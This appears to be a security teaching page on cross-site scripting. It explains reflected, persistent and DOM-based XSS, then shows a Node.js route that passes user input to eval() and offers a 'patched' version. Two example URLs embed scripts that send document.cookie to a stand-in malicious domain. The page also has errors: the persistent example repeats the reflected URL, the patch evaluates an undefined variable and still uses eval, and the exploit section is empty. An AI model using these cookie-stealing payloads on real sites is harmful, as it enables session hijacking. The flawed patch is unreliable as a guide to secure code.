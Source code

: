 ## XSS reflected

Cross-site Scripting is one of the most common application-layer web attacks. In XSS attacks, the victim is the user rather than the application. XSS attacks target client-side scripting languages such as HTML and JavaScript to embed a malicious script in a web page. These attacks can execute every time the page is loaded into a user’s browser or whenever an associated action is performed by the user.

Potential outcomes of XSS attacks include browser session hijacking, stealing account credentials, displaying unwanted advertisements, and infecting the user with a virus or other malware. However, the most malevolent XSS attacks complete their dirty work in secret, accessing unrelated web applications and resources behind the victim’s firewall. XSS vulnerabilities in software are easily preventable, yet most companies don’t take measures to protect their users.

There are three different types of Cross-site Scripting attacks:

**Reflective** – When interacting with a typical web application, the user will send a web request to the server, such as submitting a form. The application then responds with a page containing an echo of what the user has submitted for confirmation. Web apps with XSS vulnerabilities allow potentially harmful data to be inserted during this routine transaction. A malicious string of Javascript can replace or append itself to the user’s entry, which the user’s browser sees and executes when returned. A reflective XSS attacker entices the victim into initiating the HTTP request by clicking on a malicious link embedded in an email or a counterfeit web page that appears legitimate.

**Persistent** – Persistent XSS exploits can occur when a web application stores user- generated data and sends it back to the user’s browser without properly securing it. This kind of XSS attack is more dangerous since the attacker doesn’t have to entice users into performing any suspicious actions. If user data is not properly sanitized before being displayed in the client browser, then any user of the application can potentially become a victim.

**DOM-based** – XSS attacks can exploit the Document Object Model standard that enables API access to the content of HTML and XML documents. Many applications rely on pages that contain client-side scripts that dynamically generate HTML content. Based on certain user input, these pages modify their HTML without any interaction with the server, typically using Java or ActiveX. An XSS attacker has employed DOM-based XSS methodology if a malicious script can be injected into such a page without any data being submitted to the server. Unlike the other XSS techniques, in DOM-based exploits the client-side script is responsible for not properly sanitizing user input rather than the server.


### Defenses
It is very simple to avoid having Cross-site Scripting (XSS) vulnerabilities in your code. These fixes lock down the process of passing necessary data between a web application and the user’s browser. They can be employed with any kind of programming language and any type of database. Refer to these basic methods for identifying and preventing XSS errors in web applications.

-  Validate data input from user browsers to the web application. Developers can prevent reflective Cross-site Scripting vulnerabilities by sanitizing user- inputted data in an HTTP request before reflecting it back. Malicious code is commonly inserted as part of a GET or POST parameter. Be sure to sanitize all input from search fields and forms and convert all user input to a single character encoding before parsing. This applies to Single/Double Hex Encoding, Unicode Encoding, and UTF-8 Parsing.
- Encode all output to user browsers from the web application. Make sure all data is validated, filtered, or escaped before echoing back to the user, such as the values of query parameters during searches. Use the appropriate escaping method for the application’s context. HTML encode all user input returned as part of HTML. URL encode all user input returned as part of URLs. Convert special characters such as ?, &, /, <, >, and spaces to their respective HTML or URL encoded equivalents.
- Never trust user-submitted data. Some web applications are written to optionally operate without client-side processing at all. This is a development tradeoff which can reduce application functionality or responsiveness. Alternatively, developers can take advantage of common browser plugins that allow users to disable client-side scripts entirely, or instead give the user the option of enabling them within specific applications. When implemented, even potentially malicious scripts could be injected on a page but the user would not be susceptible.

### Vulnerable Code View
**Node.js**

```
'use strict';

var express = require('express');
var bodyParser = require('body-parser'); 
var app = express();

app.get('/', function(req, res){ 
  var form = '' +
  '<form method="POST" action="/evaluate">' +
  '<input type="text" name="f" placeholder="" />' + 
  '<input type="submit" value="Evaluate" />' + 
  '</form>';
  res.send(form);
});

app.use(bodyParser.urlencoded({extended: false}));

app.post('/evaluate', function (req, res) { 
  var result;
  eval('result = ' + req.body.f); // <-- supplied data derived from a parameter value is evaluated here.
  res.send('The result is: ' + result); 
});

app.listen(3000);
```

**Reflective XSS**

This XSS JavaScript example is delivered to the user through clicking on a malicious link. The XSS request is initiated from the victim’s browser, sent to the vulnerable web application, and then reflected back to execute in the context of the user's session.

```
http://www.bigsafebank~~~/search.asp?q=<script>x=new Image;x.src =http://malicious-domain~~~/hijackedsession.php?session-cookie=+document.cookie;</script>
```

**Persistent XSS**

This XSS Javascript example is inputted as part of the attacker’s user name. Here a fraudulent user exploits the fact that the web application stores each user name in a local database that fails to sanitize the name field, leaving it open to XSS attacks. When other users view the attacker’s profile page, the code executes in the context of their session.

```
http://www.bigsafebank.com/search.asp?q=<script>x=new Image;x.src = http://maliciousdomain~~~/hijackedsession.php?sessioncookie="+document.cookie;</script>
```


### Patched Code
```
app.post('/evaluate', function (req, res) {
  var formula = req.body.formula;
  if(formula.match(/[^0-9\-\/\*\+]/)) { // <-- a RegEx to match anything that isn't "0-9", "-", "*", "+", "/"
    res.status(400).send('Bad Input');
    return; 
  }
  var result;
  eval('result = ' + f); 
  res.send('The result is: ' + result);
});
```

### Exploit Code
```
// ...
```